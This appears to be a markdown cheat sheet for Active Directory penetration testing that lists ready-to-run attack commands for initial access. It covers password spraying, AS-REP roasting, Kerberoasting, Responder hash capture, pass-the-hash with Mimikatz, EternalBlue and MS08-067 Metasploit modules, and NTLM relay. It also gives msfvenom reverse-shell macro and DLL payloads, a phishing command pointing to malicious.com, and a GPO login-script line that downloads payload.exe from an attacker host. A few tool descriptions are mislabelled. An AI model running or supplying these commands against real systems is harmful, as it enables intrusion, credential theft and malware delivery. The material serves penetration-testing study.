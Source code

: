 # **Active Directory Pentesting: Initial Access & Credential Attacks**

## **Scenario:**
This document outlines **initial access techniques for Active Directory (AD) penetration testing**, focusing on **credential attacks, exploitation of AD vulnerabilities, and social engineering techniques**. The goal is to **obtain valid user credentials or execute remote code** as an entry point for further privilege escalation.

### **References for Further Study:**
- **MITRE ATT&CK – Initial Access & Credential Access Techniques (T1078, T1110, T1557, T1556)**
- **BloodHound Red Teaming Guide**
- **Active Directory Credential Attacks (Pass-the-Hash, Kerberoasting, AS-REP Roasting)**
- **Windows Privilege Escalation Techniques (Mimikatz, LLMNR Poisoning, NTLM Relaying)**

---

# **🛠 Step 3: Initial Access & Credential Attacks**
**Objective:** Obtain **valid user credentials** or execute **remote code** as an initial foothold.

## **3.1 Credential Attacks**

### **Password Spraying on SMB, LDAP, WinRM, RDP, Kerberos**
- **Why?** Many AD users reuse weak passwords, and password spraying avoids account lockouts.
- **Techniques:**
  - **SMB Password Spraying (CME)**:
    - `crackmapexec smb <target> -u users.txt -p passwords.txt --continue-on-success`
  - **WinRM Brute Force:**
    - `kerbrute passwordspray -d <domain> --dc <DC_IP> -U users.txt -P passwords.txt`
  - **Kerberos Password Spraying (No Lockout):**
    - `kerbrute -domain <domain> -users users.txt -passwords passwords.txt`
- **Alternative Methods:**
  - **Brute force with Hydra:**
    - `hydra -L users.txt -P passwords.txt smb://<target>`
  - **Automated tools:** `Spray365`, `CredCrack`, `Medusa`

### **AS-REP Roasting for Hash Extraction**
- **Why?** If a user has **Kerberos Pre-Authentication disabled**, an attacker can extract an **encrypted NTLM hash**.
- **Techniques:**
  - **Identify vulnerable accounts:**
    - `GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat`
  - **Extract AS-REP hashes:**
    - `crackmapexec ldap <DC_IP> -u '' -p '' --asreproast`
- **Alternative Methods:**
  - **Automated Kerberos enumeration via BloodHound**
  - **Use Impacket's `GetUserSPNs.py` for AS-REP roasting**

### **Kerberoasting (Extracting Service Account Hashes)**
- **Why?** Service accounts often have weak passwords that can be cracked offline.
- **Techniques:**
  - **Request SPN tickets for Kerberoasting:**
    - `GetUserSPNs.py -request -dc-ip <DC_IP> <domain>/user:password`
  - **Extract service account tickets:**
    - `Invoke-Kerberoast | Format-Table -AutoSize`
- **Alternative Methods:**
  - **Analyze BloodHound SPN relationships to prioritize accounts**
  - **Use Rubeus for targeted Kerberoasting**

### **Enumerate and Crack NTLM Hashes (Responder, MITM Attacks)**
- **Why?** NTLM hashes can be captured via **LLMNR/NBT-NS Poisoning**.
- **Techniques:**
  - **Intercept and capture NTLM hashes:**
    - `responder -I eth0 -wv`
  - **Crack NTLM hashes with hashcat:**
    - `hashcat -m 5600 captured.ntlm rockyou.txt`
- **Alternative Methods:**
  - **Poison WPAD requests for NTLM relay attacks**
  - **Use MITM6 for IPv6-based NTLM hash capture**

### **Pass-the-Hash (PTH) and Over-Pass-the-Hash (Pass-the-Ticket)**
- **Why?** Once NTLM hashes are obtained, they can be used to authenticate without cracking.
- **Techniques:**
  - **Authenticate using Pass-the-Hash:**
    - `pth-winexe -U <domain>/Administrator%NTLMhash //<target>/cmd.exe`
  - **Use Mimikatz for Over-Pass-the-Hash:**
    - `mimikatz "privilege::debug" "sekurlsa::pth /user:user /domain:domain /ntlm:hash" exit`
- **Alternative Methods:**
  - **Use CrackMapExec to relay NTLM authentication**
  - **Extract hashes from LSASS using ProcDump**

---

## **3.2 Exploiting AD Vulnerabilities for Initial Access**

### **Zero-Day & N-Day Exploits Against AD Components (MS08-067, MS17-010)**
- **Why?** Unpatched systems remain vulnerable to legacy exploits.
- **Techniques:**
  - **Exploit EternalBlue (MS17-010):**
    - `use exploit/windows/smb/ms17_010_eternalblue`
  - **Trigger MS08-067 (NetAPI Exploit):**
    - `use exploit/windows/smb/ms08_067_netapi`

### **NTLM Relay Attacks (SMB Signing Disabled, ADIDNS, Exchange Relaying)**
- **Why?** If SMB signing is disabled, attackers can relay NTLM authentication.
- **Techniques:**
  - **Enumerate SMB signing status:**
    - `nmap --script smb2-security-mode -p445 <target>`
  - **Launch NTLM relay attack with Impacket:**
    - `ntlmrelayx.py -tf targets.txt -smb2support`

### **PrinterBug Exploitation for NTLM Hash Capture**
- **Why?** Printer Spooler service can be exploited to relay NTLM authentication.
- **Techniques:**
  - **Trigger PrinterBug attack:**
    - `spoolSample.exe -d <DC_IP>`

---

## **3.3 Phishing & Social Engineering (Targeted Attacks)**

### **Spear Phishing for Credential Harvesting (Office Macros, HTA Payloads)**
- **Why?** Users often execute malicious Office macros or open HTA files.
- **Techniques:**
  - **Generate malicious macro payload:**
    - `msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -f vba`
  - **Use Phishery for capturing Office credentials:**
    - `phishery -d <domain> -u https://malicious.com`

### **Malicious DLL Injection in Network Shares**
- **Why?** Users often execute binaries from network shares.
- **Techniques:**
  - **Inject malicious DLL into writable share:**
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll > payload.dll`
  - **Wait for execution or trigger via PowerShell:**
    - `rundll32.exe \server\share\payload.dll,EntryPoint`

### **Embedding Payloads in GPO Deployed Scripts**
- **Why?** AD admins often use GPOs to deploy login scripts.
- **Techniques:**
  - **Modify existing GPO script:**
    - `echo 'powershell -c Invoke-WebRequest -Uri http://attacker/payload.exe -OutFile C:\temp\payload.exe' >> login.bat`
